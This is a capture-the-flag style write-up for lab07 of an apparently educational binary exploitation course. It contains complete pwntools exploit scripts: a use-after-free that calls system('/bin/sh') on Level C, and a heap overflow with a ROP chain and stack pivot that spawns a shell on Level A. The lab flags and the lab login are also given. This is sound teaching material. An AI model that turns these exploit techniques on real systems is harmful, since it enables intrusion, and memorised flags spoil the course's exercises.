


## lab07

**Level C**

An easy problem just like what shown in `lecture`'s illustration, so I just follow the procedure step by step:

1. initialize a `data` object (with `"/bin/sh"` to be exploited)
2. free this object
3. intialize a `number` object (with `system`'s address in decimal)
4. UAF the first `data` object

There is a strange situation that `system`'s address are not randomized hence I can construct a workable exploit.

```python
from pwn import *

shell = ssh(host='mbe', user='lab7C', password='lab07start')
p = shell.process('/levels/lab07/lab7C')

# address of libc system, strangely it is static
addr = 0xb7e63190

# set strings[1] string buffer
p.recvuntil('Choice: ')
p.sendline('1')
p.recvuntil('store: ')
p.sendline('/bin/sh')

# free strings[1]
p.recvuntil('Choice: ')
p.sendline('3')

# reset strings[1] as numbers[1]
p.recvuntil('Choice: ')
p.sendline('2')
p.recvuntil('store: ')
p.sendline(str(addr))

# UAF the strings[1]
p.recvuntil('Choice: ')
p.sendline('5')
p.recvuntil('print: ')
p.sendline('1')

p.interactive('cirq # ')
```



The flag is `us3_4ft3r_fr33s_4re_s1ck`.

[Here I make a mistake that ALSR is wrongly turned off, but simple info leak works if the situation satisfied. So I will not update this writeup.]

---

**Level A**
The vulnerability occurs on parameter checking:

```cpp
/* make sure the message length is no bigger than the xor pad */
if((new_msg->msg_len / BLOCK_SIZE) > MAX_BLOCKS)
    new_msg->msg_len = BLOCK_SIZE * MAX_BLOCKS;
```

Though intended maximum size is 128 = 4*32, this checking may accepts maximum length of 131. With this, we are able to modify the value of `msg_len`, and then inject malicious code on the heap.

The solution is:

+ create message block with index 0 and 1
+ inject ropchain to block 1 by overflowing block 0
+ execute ropchian by invoking block 1's function pointer

Inspired by the [solution](https://github.com/Grazfather/MBEsolutions/blob/master/lab7A.py), I use two step ropchain with pivoting. First step is use `add esp, 33` to jump on stack (this will be written to the function pointer), when function pointer is called, `esp` will jump to the `numbuf` in function `print_index`, with the rop chain on this buffer, `esp` is pointed to the heap and then exectute the main shellcode (rop chain).

```python
from pwn import *

#p = process('./lab7A')
p = remote('mbe', 7741)

ADDESP33 = 0x08086e77
SHELL = [
    0x080bfeaf, # nop

    0x08082cc6, # pop edx
    0x080ed000, # @ .data
    0x080bd226, # pop eax
    u32('/bin'),
    0x0806ddf6, # mov dword ptr [edx], eax ; pop ebx
    0x51515151,
    0x08082cc6, # pop edx
    0x080ed004, # @ .data + 4
    0x080bd226, # pop eax
    u32('//sh'),
    0x0806ddf6, # mov dword ptr [edx], eax ; pop ebx
    0x51515151,
    0x08082cc6, # pop edx
    0x080ed008, # @ .data + 8
    0x080e76ad, # pop ecx
    0x0,
    0x080562d2, # mov dword ptr [edx], ecx
    0x080481c9, # pop ebx
    0x080ed000, # @ .data
    0x08082cc6, # pop edx
    0x0,
    0x08098eb0, # mov eax, 7
    0x08098e30, # add eax, 3
    0x0807cd76, # inc eax
    0x08048ef6  # int 0x80
]
def gen_first_payload():
    prefix = 'Q' * 128
    recover = p32(0x100) + p32(0x0) + p32(0x111)
    sc = ''.join(map(p32, SHELL[1:]))
    nop = p32(SHELL[0]) * 3
    shell = nop + sc
    payload = prefix + recover + p32(ADDESP33) + shell
    assert len(payload) == 0x100
    return payload

PIVOT = [
    0x080b1975, # xchg eax, edx
    0x08097ccf, # add eax, 4 ; pop edi
    0x51515151,
    0x0804bb6c  # xchg eax, esp
]
def gen_second_payload():
    payload = ''.join(map(p32, PIVOT))
    return payload

p.recvuntil('Choice: ')
p.sendline('1')
p.sendline('130')
p.send('Q'*128 + p16(0x100))

p.recvuntil('Choice: ')
p.sendline('1')
p.sendline('4')
p.send('Q'*4)

first_payload = gen_first_payload()
p.recvuntil('Choice: ')
p.sendline('2')
p.sendline('0')
p.send(first_payload)

#gdb.attach(p, gdbscript='b *(0x804951f)\nc\n')

second_payload = gen_second_payload()
p.recvuntil('Choice: ')
p.sendline('4')
p.send('1')
p.sendline(second_payload)

p.interactive('cirq # ')
```



The flag is `0verfl0wz_0n_th3_h3ap_4int_s0_bad`.
